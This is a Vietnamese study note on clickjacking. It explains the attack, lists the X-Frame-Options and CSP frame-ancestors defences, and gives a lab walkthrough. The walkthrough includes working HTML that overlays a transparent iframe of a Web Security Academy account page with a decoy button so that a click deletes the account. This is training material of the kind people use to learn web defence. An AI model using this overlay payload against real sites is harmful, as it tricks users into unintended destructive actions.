 # **Clickjacking (UI redressing)**

## **Clickjacking là gì ?**

- Clickjacking là một cuộc tấn công dựa trên giao diện, trong đó người dùng bị lừa nhấp vào nội dung có thể thực hiện được trên một trang web ẩn.

![](./img_Clickjacking/click-1.png)

## **Làm thế nào để ngăn chặn các cuộc tấn công clickjacking**

- Hai cơ chế phía máy chủ để ngăn ngừa clickjacking:
  - `X-Frame-Options`:
    - X-Frame-Options: deny (ngăn chặn bất kỳ tên miền nào đóng khung nội dung)
    - X-Frame-Options: sameorigin (chỉ cho phép trang web hiện tại đóng khung nội dung.)
    - X-Frame-Options: allow-from <https://normal-website.com>(cho phép 'uri' được chỉ định đóng khung trang này.)
  - `Content Security Policy (CSP)`:
    - Content-Security-Policy: policy
    - Content-Security-Policy: frame-ancestors 'self';
    - Content-Security-Policy: frame-ancestors normal-website.com;

## **LAB clickjacking**

> ### **Basic clickjacking with CSRF token protection**

- Sau khi trải nghiệm trang web tôi đã đăng nhập account và có chức năng xóa tài khoản. Vậy tôi đã tạo một trang web đồng thời tạo một button click. Nếu người dùng click vào trang web thì trang tài khoản người dùng sẽ bị xóa. Bằng cách tôi sẽ ghi đè button lên trường deleted như sau:

```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515px;
        left:60px;
        z-index: 1;
    }
</style>
<div>CLICK ME</div>
<iframe src="https://0ad8004a0460bd4bc01ea4720008001b.web-security-academy.net/my-account"></iframe>
```

![](./img_Clickjacking/lab-1.png)
